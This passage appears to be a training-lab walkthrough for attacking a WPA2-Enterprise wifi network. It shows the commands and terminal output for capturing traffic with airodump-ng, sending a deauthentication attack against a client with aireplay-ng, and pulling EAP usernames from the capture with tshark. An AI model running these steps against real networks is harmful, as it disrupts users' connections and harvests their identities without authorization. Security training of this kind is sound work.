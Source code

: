 Having enabled the monitor mode on the `wlan0` (`wlan0mon`) interface, students will proceed to use `airodump-ng` on channel 1 and save the traffic to a file:

Code: shell

```shell
airodump-ng wlan0mon -c 1 -w AcademyStudent
```

```
root@HTB-Corp:/home/wifi# airodump-ng wlan0mon -c 1 -w AcademyStudent

CH  1 ][ Elapsed: 24 s ][ 2025-01-08 07:39 

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

 5C:64:F1:C0:10:A1  -28 100      270       12    2   1   54   WPA2 CCMP   MGT  HTB-Corp                       

 BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes

 5C:64:F1:C0:10:A1  0A:B6:66:D3:6A:DC  -29    6 -54      0        9
```

Students will open another terminal/tab, switch to the root user, and perform a deauthentication attack using `aireplay-ng` and the found BSSIDs of both the access point (`HackMe`) and the client. Note the client's BSSID (MAC address) is subject to change upon spawn/reset of the target.

Code: shell

```shell
sudo -s
aireplay-ng -0 1 -a 5C:64:F1:C0:10:A1 -c 0A:B6:66:D3:6A:DC wlan0mon
```

```
wifi@HTB-Corp:~$ sudo -s
root@HTB-Corp:/home/wifi# aireplay-ng -0 1 -a 5C:64:F1:C0:10:A1 -c 0A:B6:66:D3:6A:DC wlan0mon

07:41:22  Waiting for beacon frame (BSSID: 5C:64:F1:C0:10:A1) on channel 1
07:41:22  Sending 64 directed DeAuth (code 7). STMAC: [0A:B6:66:D3:6A:DC] [ 0| 0 ACKs]
```

Next, they will use `tshark` to extract username information by filtering out based on the BSSID (MAC address) of the access point and using EAP-related filters:

Code: shell

```shell
tshark -r AcademyStudent-01.cap -Y '(eap && wlan.ra == 5C:64:F1:C0:10:A1) && (eap.identity)' -T fields -e eap.identity
```

```
root@HTB-Corp:/home/wifi# tshark -r AcademyStudent-01.cap -Y '(eap && wlan.ra == 5C:64:F1:C0:10:A1) && (eap.identity)' -T fields -e eap.identity

Running as user "root" and group "root". This could be dangerous.
{hidden}
```
